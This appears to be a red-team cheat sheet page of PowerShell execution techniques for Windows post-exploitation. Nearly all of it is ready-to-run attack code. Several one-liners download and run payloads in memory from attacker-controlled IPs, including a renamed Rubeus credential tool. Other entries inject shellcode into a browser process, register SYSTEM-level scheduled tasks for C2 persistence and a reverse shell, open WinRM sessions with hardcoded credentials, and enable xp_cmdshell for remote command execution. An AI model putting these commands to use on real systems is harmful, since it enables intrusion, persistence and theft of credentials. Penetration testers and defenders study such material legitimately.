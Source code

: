 # Execution

## Executing Shellcode

### Empire's `Invoke-Shellcode`

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1');
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin");
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b;
```
{% endcode %}

Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`

### Executable to In-Memory Assembly Code

Reflectively loading a binary as assembly code

{% code overflow="wrap" %}
```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```
{% endcode %}

### Download and Execute in Memory

GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)

{% code overflow="wrap" %}
```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)
```
{% endcode %}

Additionally, there are additional methods here: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

{% code overflow="wrap" %}
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```
{% endcode %}

## WinRM

The following will establish a WinRM session and execute commands remotely.

{% code overflow="wrap" %}
```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess;
}
```
{% endcode %}

Or, you can gain an interactive session.

{% code overflow="wrap" %}
```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```
{% endcode %}

## PowerShell Execution via Text File

{% code overflow="wrap" %}
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke();
```
{% endcode %}

## Scheduled Task Creation

{% code overflow="wrap" %}
```powershell
$Script = 'C:\tmp\C2.ps1';
$TaskName = 'C2 PoC for SYSTEM';
$Description = 'A proof-of-concept for scheduled task creation';
$User = "NT AUTHORITY\SYSTEM";
$Executable = "powershell.exe";
$Action = New-ScheduledTaskAction -execute $Executable -Argument "-file $Script";
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).Date -RepetitionInterval (New-TimeSpan -Hours 24);
$Settings = New-ScheduledTaskSettingsSet –StartWhenAvailable;
Register-ScheduledTask -TaskName $TaskName -Trigger $Trigger -Action $Action -Setting $Settings -Description $Description -User $User -RunLevel Highest;
```
{% endcode %}

Or

{% code overflow="wrap" %}
```powershell
schtasks /create /sc minute /mo 1 /tn burmat /tr \tmp\reverse443.exe /ru SYSTEM
```
{% endcode %}

## PowerUpSQL

### Enumerate Privileges

Full credit to: [https://github.com/lkys37en](https://github.com/lkys37en)

{% code overflow="wrap" %}
```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co";
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator;
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName;

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation;

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10;
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation;

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}
	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole;
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append;
}
```
{% endcode %}

### Enable xp\_cmdshell / Execute Commands

{% code overflow="wrap" %}
```powershell
## enable xp_cmdshell:
Get-SQLQuery -Instance SQLSRV\SQLEXPRESS -query "EXECUTE('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""sqlsrv.burmat.local"""

## test rce:
Get-SQLServerLinkCrawl -Instance "SQLSRV\SQLEXPRESS" -Query "exec master..xp_cmdshell 'whoami'" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}
